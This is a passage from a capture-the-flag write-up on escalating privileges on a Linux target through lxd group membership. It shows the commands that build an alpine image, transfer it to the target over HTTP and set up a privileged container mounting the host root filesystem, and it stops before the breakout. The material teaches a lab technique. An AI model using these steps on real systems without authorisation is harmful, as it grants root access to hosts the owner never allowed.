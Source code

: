 I make linpeas.sh executable via:

`chmod +x linpeas.sh`

and run it. The only thing that comes back as interesting is the fact that **lxd** is running on the system, and we're a member of the group. Given that lxd was listed in the tags for this CTF this seems like a good bet to explore further.

<br>

## Privilege Escalation via Lxd

Not having exploited lxd before I do some google searching and eventually boil it down to:
- Getting an alpine container built
- Transferring it to the target system and setting it up
- Breaking out of it as root

<br>

**Note:** You won't be able to build this directly on the system due to network connectivity so on my home system I download an alpine container builder that I found on GitHub by running:

`git clone https://github.com/saghul/lxd-alpine-builder.git`:

```
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Receiving objects: 100% (50/50), 3.11 MiB | 16.51 MiB/s, done.
Resolving deltas: 100% (15/15), done.
```

Change to the created directory:

`cd lxd-alpine-builder`

Build the container with the provided file:

`sudo ./build-alpine`

When it's finished building you'll end up with a file similar to this:

```
alpine-v3.15-x86_64-20220131_0021.tar.gz
```

I start up a http server on my system and wget the container onto the target system.

<br>

Once it's there I run the following commands to get the container ready to go:

- `lxc image import ./alpine-v3.15-x86_64-20220131_0021.tar.gz --alias exploit`
- `lxc init exploit ignite -c security.privileged=true`
- `lxc config device add ignite exploit disk source=/ path=/mnt/root recursive=true`
- `lxc start ignite`
- `lxc list`
